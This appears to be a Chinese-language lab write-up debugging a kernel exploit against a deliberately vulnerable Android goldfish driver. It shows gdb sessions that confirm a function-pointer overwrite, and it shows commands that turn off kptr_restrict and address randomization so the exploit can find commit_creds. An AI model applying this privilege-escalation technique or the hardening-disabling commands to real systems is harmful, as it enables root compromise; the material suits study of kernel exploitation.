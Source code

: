 调试过程如下，省略部分步骤，分析一同写在里面了。  
先挂起 gdb，然后执行./build_and_run.sh 程序，注意由于我们 exp 需要 commit_creds 和 prepare_kernel_cred 地址，所以可以用 adb shell 进去 echo 0 > /proc/sys/kernel/kptr_restrict, 同时关闭随机化 echo 0 > /proc/sys/kernel/randomize_va_space

 

在几个重要函数下断点，并来到 write_to_vuln_device，此时对应着 exp 是执行到了 write 这一句

```
(gdb) b write_to_vuln_device
Breakpoint 5 at 0xc025be28: file drivers/vulnerabilities/kernel_build/../challenges/command_handler/module/CommandHandler.c, line 29.
(gdb) b device_ioctl
Breakpoint 6 at 0xc025be90: file drivers/vulnerabilities/kernel_build/../challenges/command_handler/module/CommandHandler.c, line 41.
(gdb) c
Continuing.
 
Breakpoint 5, write_to_vuln_device (filp=0xd1811680,
    buf=0xbefffab8 "5\203", count=4, f_pos=0xd186bf88)
    at drivers/vulnerabilities/kernel_build/../challenges/command_handler/module/CommandHandler.c:29
29      {

```

可以发现程序用来覆盖的值应该是 0x8335，也就是 run_handler() 的函数地址，但是现在无法查看

```
(gdb) x/10xw 0xbefffab8
0xbefffab8:     0x00008335      0x8e6a2130    0x0004d5a8                    0x6474e552
0xbefffac8:     0x00000fff      0x00008743    0x00000001                    0xbefffb54
0xbefffad8:     0xbefffb5c      0xbefffb9c

```

步进到 copy_from_user，查看填入地址和其内容发现确实是 handler 和 runhandler，且此时 from 地址的值就是 0x00008335

```
copy_from_user (n=4, from=0xbefffab8, to=0xc04ac2fc)
    at /home/test/Desktop/kernel_pwn/playground/goldfish/arch/arm/include/asm/uaccess.h:421
421                     n = __copy_from_user(to, from, n);
(gdb) x/10xw 0xc04ac2fc
0xc04ac2fc :   0xc025be18      0x0000003a                          0xc041ddc1       0xc04ac324
0xc04ac30c :    0xc04ac2dc    0xc04ac3bc                    0x00000000       0xdeaa61c0
0xc04ac31c :    0x00000000    0x0000029a
(gdb) x/10xw 0xc025be18
0xc025be18 :       0xe3a00000                          0xe12fff1e       0xe3a00000      0xe12fff1e
0xc025be28 :      0xe92d4010                          0xe1a0200d       0xe3c23d7f      0xe59f004c
0xc025be38 :   0xe3c3303f                          0xe5933008
(gdb) x/10xw 0xbefffab8
0xbefffab8:     0x00008335      0x8e6a2130    0x0004d5a8                    0x6474e552
0xbefffac8:     0x00000fff      0x00008743    0x00000001                    0xbefffb54
0xbefffad8:     0xbefffb5c      0xbefffb9c 
```
